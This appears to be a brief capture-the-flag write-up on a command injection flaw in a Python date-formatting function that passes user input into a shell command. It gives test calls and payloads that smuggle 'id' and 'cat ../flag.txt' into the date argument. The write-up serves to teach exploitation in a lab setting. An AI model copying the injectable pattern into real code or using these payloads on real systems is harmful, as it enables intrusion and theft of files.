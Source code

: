 - __Vulnerability__: Command Injection 
- __Goal__: Injecting the date parameter triggers system command execution.

## Local testing the program

```python
import subprocess, os

def format_date(timestr):
    try:
        formatCMD = f'date -d "{timestr}" +"%h %d %Y %H %M"'
        formatDate = subprocess.getoutput(formatCMD)
    except:
        formatDate = 'Jan 01 1970 00 00'
    print(formatDate)

format_date("&&id")
format_date("10 oct 2010 10:10 am\";id && date 10 oct 2010 10:10 am\"")
```

#### Valid payloads

```sh
"10 oct 2010 10:10 am\";id && date 10 oct 2010 10:10 am\""
```

```sh
"10 oct 2010 10:10 am\";cat ../flag.txt && date 10 oct 2010 10:10 am\""
```

